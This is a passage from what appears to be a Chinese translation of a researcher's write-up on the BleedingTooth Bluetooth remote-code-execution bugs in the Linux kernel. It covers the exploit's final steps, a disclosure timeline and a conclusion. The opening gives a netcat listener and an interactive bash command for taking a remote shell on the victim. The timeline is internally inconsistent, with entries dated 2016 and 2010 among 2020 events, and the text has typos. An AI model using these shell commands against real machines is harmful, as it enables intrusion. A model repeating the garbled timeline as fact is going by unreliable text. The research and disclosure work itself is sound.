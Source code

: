 在另一个终端中，运行:

```c
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

如果成功执行，会弹出一个 calc ：

```shell
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```

受害者偶尔可能会在 dmesg 中打印：Bluetooth: Trailing bytes: 6 in sframe。如果`kmalloc-128 slab`喷射没有成功，就会发生这种情况。在这种情况下，我们需要崇训利用 EXP 。关于“BadKarma”这个漏洞的一个趣闻，BadKarma 漏洞偶尔会在 `sk_filter()`的提前退出，例如当字段`sk_filter`为 0 时，继续执行 A2MP 接收处理程序并发送回一个 A2MP 响应包。有意思的是，当这种情况发生时，受害者的机器并没有发生 painc ——相反，攻击者的机器会 panic；因为，正如我们之前了解到的，A2MP 协议使用的 ERTM 实现在设计上会引发类型混淆。

# 时间线

2020-07-06 - 谷歌内部发现 BadVibes 漏洞

2016-07-20 - 谷歌内部发现 BadKarma 和 BadChoice 漏洞

2010-07-22 - Linus Torvalds 报告独立发现 BlueZ 的 BadVibes 漏洞，公布时间为7天

2020-07-24 - BlueZ 主要开发人员<sup>[18]</sup>（Intel）报告的三个 BleedingTooth 漏洞的技术细节

2020-07-29 - Intel 在 2020-07-31 与谷歌预约了会议

2020-07-30 - BadVibes 发布修复补丁

2020-07-31 - Intel 将披露日期定在 2020-09-01，此前由 Intel 协调发布了一份保密协议。通知方通过 kconfig 给出一个非安全性提交消息来禁用 BT_HS 

2020-08-12 - Intel 调整披露日期至 2020-10-13 (自初始报告起90天)

2020-09-25 - Intel 提交补丁到 公开的 bluetooth-next<sup>[19]</sup> 分支 

2020-09-29 - 补丁与 5.10 linux-next<sup>[20]</sup>分支合并

2020-10-13 - 公开披露英特尔的建议，随后披露谷歌建议

2020-10-14 - Intel 将推荐的固定版本从 5.9 修正到 5.10 内核

2020-10-15 - Intel 取消内核升级建议

# 结论

从零知识开始，到发现蓝牙 HCI 协议中的三个漏洞，这是一个即奇怪又出乎意料的过程。当我第一次发现 BadVibes 漏洞时，我认为它只会被脆弱/恶意的蓝牙芯片触发，因为这个漏洞看起来太明显了。由于我没有两个带蓝牙 5 的可编程设备，我无法验证是否有可能收到这么大的报文。只有在比较了 Linux 蓝牙栈与其他实现并阅读了规范之后，我才得出结论，我确实是发现了我的第一个 RCE 漏洞，并立即出去购买了另一台笔记本电脑(令人惊讶的是，市场上没有值得信赖的 BT5 适配器)。分析溢出后，很快就发现需要一个额外的信息泄漏漏洞。比我想象的要快得多，我只花了两天时间就发现了 BadChoice 。在尝试触发它时，我发现了 BadKarma 漏洞，我最初认为这是一个会阻止 BadChoice 漏洞的 bug。事实证明，绕过这个漏洞是相当容易的，而且这个漏洞实际上是另一个高度严重的安全漏洞。研究 Linux 蓝牙栈和开发 RCE 漏洞具有挑战性，但令人兴奋，特别是因为这是我第一次审计和调试 Linux 内核。我很高兴，这项工作的结果是，决定在默认情况下禁用蓝牙高速特性<sup>[21]</sup>下以减少攻击面，这也意味着删除强大的堆原语。此外，我将从这项研究中获得的知识转化为 syzkaller contributions<sup>[22]</sup>，它使 /dev/vhci 设备能被Fuzz ，并发现了>40个额外的bug。虽然这些 bug 多数不太可能被利用，甚至不太可能被远程触发，但它们会被工程师识别和修复其他弱点（Bluetooth: Fix null pointer dereference in hci_event_packet()<sup>[23]</sup>, Bluetooth: Fix memory leak in read_adv_mon_features()<sup>[24]</sup>或 Bluetooth: Fix slab-out-of-bounds read in hci_extended_inquiry_result_evt()<sup>[25]</sup>)，因此有助于拥有一个更安全、更稳定的内核。
